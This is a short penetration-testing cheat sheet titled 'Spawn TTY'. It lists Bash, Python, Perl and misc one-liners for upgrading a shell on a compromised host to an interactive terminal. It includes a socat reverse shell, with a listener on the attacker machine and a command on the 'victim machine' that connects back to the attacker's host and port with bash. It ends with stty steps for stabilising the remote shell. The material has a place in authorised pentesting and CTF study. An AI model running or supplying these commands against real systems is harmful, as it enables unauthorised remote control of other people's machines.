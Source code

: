 # Spawn TTY

**Bash**

```bash
/bin/bash -i
echo os.system('/bin/bash')
/bin/sh -i
```

**Python**

```python
python -c "import pty; pty.spawn('/bin/bash')"
```

**Perl**

```perl
perl -e 'exec "/bin/bash";'
```

**Socat**

On the attacker machine, set up socat listener: replace 4444 with your listening port.

```
socat -,raw,echo=0 tcp-listen:4444
```

On the victim machine, connect back the attacker machine and spawn a shell. Replace `<host>` with attacker IP and `<port>` with attacker listing port.

```
$ socat exec:"/bin/bash -li",pty,stderr,setsid,sigint,sane tcp:<host>:<port>
```

**Misc**

```
/usr/bin/script -qc /bin/bash /dev/null
/usr/bin/expect sh
```

**Interactive TTY**

* Backgrounding the _remote_ shell with **CTRL-Z**:

```
user@remote:~$ ^Z
```

* Getting ROWS and COLS within current terminal window:

```
user@local:~$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

* Ignoring hotkeys in the _local_ shell and getting back to the _remote_:

```
user@local:~$ stty raw -echo; fg
```

* Setting correct size for the _remote_ shell (where `ROWS` and `COLS` are the values from the 3rd bullet):

```
user@remote:~$ stty rows ROWS cols COLS
```

* Adding some colors:

```
user@remote:~$ export TERM=xterm-256color
```

* Reloading bash to apply the TERM variable:

```
user@remote:~$ exec /bin/bash
```
